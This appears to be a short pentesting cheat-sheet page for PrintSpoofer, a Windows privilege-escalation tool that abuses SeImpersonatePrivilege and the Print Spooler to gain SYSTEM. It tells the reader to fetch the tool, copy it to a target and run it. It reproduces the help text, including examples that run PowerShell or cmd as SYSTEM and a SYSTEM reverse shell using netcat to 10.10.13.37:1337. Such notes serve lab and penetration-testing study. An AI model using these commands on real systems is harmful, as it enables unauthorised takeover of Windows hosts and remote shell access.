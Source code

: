 title: PrintSpoofer

> From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

If you have visual studio you can clone and build ***PrintSpoofer*** from the GitHub Repo
```
git clone git@github.com:itm4n/PrintSpoofer.git
```

If not you can download the latest pre-built version from [https://github.com/itm4n/PrintSpoofer/releases/latest](https://github.com/itm4n/PrintSpoofer/releases/latest). 

* [PrintSpoofer32.exe](PrintSpoofer32.exe)
* [PrintSpoofer64.exe](PrintSpoofer64.exe)

Once you have a copy of the executable use your preferred to copy over to your target and then run

```
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```